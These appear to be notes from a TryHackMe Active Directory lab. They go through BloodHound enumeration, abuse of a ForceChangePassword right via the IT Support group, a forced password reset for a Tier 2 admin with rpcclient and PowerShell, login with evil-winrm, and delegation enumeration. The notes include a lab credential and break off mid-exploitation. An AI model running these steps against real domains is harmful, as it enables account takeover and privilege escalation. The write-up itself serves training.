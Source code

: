 '''scope
THMCHILDDC - 10.200.83.101
Initial Credentials - http://distributor.za.tryhackme.loc/creds
'''

## Exploitaiton:
- Added the DNS IP address of THMDC in `/etc/systemd/resolved.conf`
- Restarted the service
```bash
systemctl restart systemd-resolved
```

- If this didnt work revert the file `/etc/systemd/resolved.conf` to normal and add the IP in `/etc/resolv.conf` in nameserver
- Got the credentials
	justin.barnes:O8SMjhmo
---------------------------------------------------------------------------------
- Got in using
```bash
ssh za.tryhackme.loc\\justin.barnes@thmwrk1.za.tryhackme.loc
```

- Used `bloodhound-python` to dump `bloodhound` data
- Uploaded on `bloodhound`
- We have RDP permission on THMWRK1
- Checked path for `Tier 2 Admins`
- Found `ForceChangePassword` permission on all Tier 2 Admins from `IT Support` Group
- And anyone can add users to `IT Support` group
- Added our user
```bash
Add-ADGroupMember "IT Support" -Members "justin.barnes"
```

- We can use RPCclient or Powershell to change password now
```bash
# RPCclient method
rpcclient -U "justin.barnes" 10.200.83.101
setuserinfo2 t2_ross.bird 23 password123!

# Powershell method
Get-ADGroupMember -Identity "Tier 2 Admins" # Selected "t2_ross.bird" to change password
$Password = ConvertTo-SecureString "password123!" -AsPlainText -Force
Set-ADAccountPassword -Identity "t2_ross.bird" -Reset -NewPassword $Password
```

- Now we can login using SSH or WinRM
```bash
ssh za.tryhackme.loc\\t2_ross.bird@thmwrk1.za.tryhackme.loc

evil-winrm -i 10.200.83.248 -u 't2_ross.bird' -p 'password123!'
```

- Got in
---------------------------------------------------------------------------------
- Found constrained delegations for `svcIIS` using
```bash
Get-NetUser -TrustedToAuth
```
